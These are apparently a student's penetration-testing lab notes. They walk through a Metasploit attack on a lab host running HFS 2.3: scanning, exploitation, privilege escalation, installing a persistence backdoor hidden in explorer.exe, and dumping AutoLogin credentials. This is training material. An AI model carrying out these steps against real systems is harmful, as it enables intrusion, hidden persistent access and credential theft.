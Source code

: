 Hydra


Password cracking

Windows Shares(Null Sessions)

ARP Poisoning/Spoofing

## Metasploit


Lab
first

1.  Identify available services on the target
	1. nmap -A -O -p 80 demo.ine.local
			-A scans using all scripts
			-O check OS 
    
2.  Find vulnerability of the target application
    searchsploit hfs 2.3
		-check if exploits exists
	 msfconsole ....  search the exploit (this case rejetto)
	 
3.  Exploit the target using Metasploit Framework
    use (exploit id)
	 show options and set options (make sure LHOST and the modules SRVHOSTS same but port different so that the module the port connects from(SRVPORT) is not same as the payload port (LPORT). 
	 exploit
	 
4.  Obtain SYSTEM privileges on the machine
	1. sessions -> to check available sessions
	2. sessions (session id ) -> to run sesison
	3. In the meterpreter shell:
		1. getsystem --> receive sytem priveldge ...metasploits PEA
		2. getuid --> double check ur priveledge
    
5.  Install Persistence backdoor
	1. use "background" to close the prev session
	2. use exploit/windows/local/persistence_service
	3. set the session to install the backdoor
	4. exploit
	5. background the new session opened
	6. use exploit/multi/handler --> generic handler to listen for the backdoor installed (starts when the backdoor service tries to connect every 5 seconds)
	7. set PAYLOAD windows/meterpreter/reverse_tcp --> the prev payload used
	8. set LHOST LPORT etc then exploit
	9. migrate -N explorer.exe --> good practice to hide ur backdoor as a common explorer.exe service
6.  Extract AutoLogin credentials
	1. use post/windows/gather/credentials/windows_autologin
	2. set session (watever)
	3. exploit
	4.  password of AutoLogin was stored in the registry in plain-text format. Hence, we were able to dump it (update from future: pretty sure this dumps ntlm hashes)
	5. These registries are used to auto login to the windows machine (First-time boot or restart) without entering the username and password.


Meterpreter

RCE

Shells

